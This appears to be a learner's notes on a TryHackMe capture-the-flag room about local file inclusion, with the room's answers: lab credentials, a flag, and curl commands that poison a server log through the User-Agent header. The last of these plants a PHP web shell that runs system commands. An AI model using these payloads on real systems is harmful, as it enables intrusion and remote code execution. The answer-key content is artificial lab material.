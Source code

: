 ![[Pasted image 20240716075435.png]]

**I threw everything into cyberchef instead of using hURL for big amounts of data.**


_Now that you read the index.php, there is a login credential PHP file's path. Use the PHP filter technique to read its content. What are the username and password?

**$USER = "McSkidy";**
**$PASS = "A0C315Aw3s0m";**

**McSkidy:A0C315Aw3s0m**

_Use the credentials to login into the web application. Help McSkidy to recover the server's password. What is the password of the flag.thm.aoc server?   

![[Pasted image 20240716075923.png]]

- Server Name: **web.thm.aoc** - Password: **pass123**
- Server Name: **ftp.thm.aoc** - Password: **123321**
- Server Name: **flag.thm.aoc** - Password: **THM{552f313b52e3c3dbf5257d8c6db7f6f1}**

_The web application logs all users' requests, and only authorized users can read the log file. Use the LFI to gain RCE via the log file page. What is the hostname of the webserver? The log file location is at ./includes/logs/app_access.log.  

```python
curl -A "This is testing" <SERVER>/login.php
```

![[Pasted image 20240716081318.png]]

 ```python
curl -A "<?php phpinfo();?>" <SERVER>/login.php
```

![[Pasted image 20240716082533.png]]

Now we need to get to our file so we open a new private window so our user is no longer logged in and go back to the `err= error page`

Now we need to do some LFI to get to the file and we should see the output for phpinfo:

![[Pasted image 20240716083244.png]]

**Linux lfi-aoc-awesome-59aedca683fff9261263bb084880c965**

_Bonus: The current PHP configuration stores the PHP session files in /tmp. Use the LFI to call the PHP session file to get your PHP code executed.

## First Backdoor

Reverse Shell:

```php
curl -A "<?php echo 'ayylmao    ';system(\$GET['cmd']);?>" <SERVER>/index.php
```
